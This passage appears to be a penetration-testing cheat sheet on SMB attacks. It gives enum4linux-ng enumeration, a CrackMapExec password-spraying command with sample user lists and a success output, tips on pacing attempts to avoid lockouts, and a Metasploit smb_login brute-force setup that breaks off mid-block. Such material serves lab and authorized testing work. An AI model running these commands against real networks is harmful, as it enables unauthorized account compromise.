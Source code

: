 #### Advanced RPC Operations
- **Change user passwords**
- **Create new domain users**  
- **Create shared folders**
- **Modify system attributes**

### 3. Automated Enumeration
```bash
# Enum4linux - comprehensive SMB enumeration
./enum4linux-ng.py 10.10.11.45 -A -C

# Information gathered:
# - Workgroup/Domain name
# - Users information
# - Operating system information
# - Groups information  
# - Shares folders
# - Password policy information
```

---

## ⚔️ Protocol Specific Attacks

### 1. Brute Force & Password Spraying

> **⚠️ WARNING**: Brute forcing can lock accounts. Use password spraying for safer approach.

#### Password Spraying with CrackMapExec
```bash
# Prepare user list
cat /tmp/userlist.txt
Administrator
jrodriguez
admin
jurena

# Password spray against single target
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth

# Expected output for success
SMB    10.10.110.17  445  WIN7BOX  [+] WIN7BOX\jurena:Company01! (Pwn3d!)
```

#### Best Practices
- **2-3 password attempts max**
- **30-60 minute delays** between attempts
- **Monitor account lockout policies**
- **Use --continue-on-success** for complete enumeration

### 2. Metasploit SMB Login Scanner
```bash
# Launch Metasploit
msfconsole -q
use auxiliary/scanner/smb/smb_login

# Configure options
set rhosts 10.129.167.224
set SMBUSER jason
set PASS_FILE ./pws.list
set stop_on_success true
run

# Expected success output
```